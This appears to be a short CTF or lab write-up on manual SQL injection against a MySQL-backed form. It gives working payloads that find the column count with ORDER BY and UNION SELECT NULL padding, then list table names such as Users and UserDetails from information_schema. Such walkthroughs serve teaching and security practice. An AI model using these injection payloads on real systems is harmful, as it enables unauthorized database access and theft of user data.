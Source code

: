```
1- how many columns in the other side
2- tables names
3- columns names of table we are interested in 
```
# SQL injection :

## manually : 

>[1] : How many columns ?

- it seems to be MySQL database . 

- we have 2 ways to enumerate the columns on the other side of query 
 
1- with `order by`

payload :

```
valid' order by n-- -
where n starts from 1,2,3,4,5,6,7,. . .
should return error if n > columns 
```

trying `mary' order by 4-- -`

![Pasted image 20210910061222](https://user-images.githubusercontent.com/67979878/132948915-fa815f3a-d9a8-4f5c-8865-8e8d84180bb1.png)

trying `mary' order by 7-- -`

![Pasted image 20210910061235](https://user-images.githubusercontent.com/67979878/132948919-7b4fe2e3-54c1-488f-8a3f-d701e4f212dc.png)

so  7>n>4  after trying it is =6 

2- with `NULL`

like :

`junk'UNION SELECT @@version,NULL,NULL-- -`  X error

`junk'UNION SELECT @@version,NULL,NULL,NULL-- -` X error

`junk'UNION SELECT @@version,NULL,NULL,NULL,NULL-- -` X error

`junk'UNION SELECT @@version,NULL,NULL,NULL,NULL,NULL-- -` OK


> [2]: what tables do we have ? 

```sql
junk'UNION SELECT table_name,NULL,NULL,NULL,NULL,NULL FROM information_schema.tables-- -
```
 there are alot  but i will focus on : 
 
 [+]tables : Users, UserDetails, USER_PRIVILEGES

![Pasted image 20210910061708](https://user-images.githubusercontent.com/67979878/132948933-543e0370-d6c4-4556-90b8-f94d3f9d869d.png)
